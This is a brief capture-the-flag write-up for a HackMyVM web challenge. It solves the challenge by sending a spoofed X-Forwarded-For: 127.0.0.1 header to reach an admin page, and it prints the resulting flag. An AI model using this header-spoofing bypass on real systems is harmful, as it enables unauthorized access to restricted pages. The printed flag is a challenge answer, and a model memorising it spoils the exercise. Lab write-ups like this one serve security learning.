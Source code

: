 # Web - 054

:::note

created by || eMVee

⏲️ Release Date // 2023-11-30

💀 Solvers // 21

🧩 Type // web

Obtain the flag here `http://momo.hackmyvm.eu/f0rw4rd`

:::

```plaintext
Accept: */*
User-Agent: Thunder Client (https://www.thunderclient.com)
X-Forwarded-For: 127.0.0.1
```

修改请求头即可

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Welcome to the Admin Portal</title>
  </head>
  <body>
    <h1>Welcome to the Admin Portal</h1>
    <p>Here is your flag: HMV{Pay-it-FORWARD-x!}</p>
  </body>
</html>
```

看样子是直接PHP解析Headers，分析请求头啊
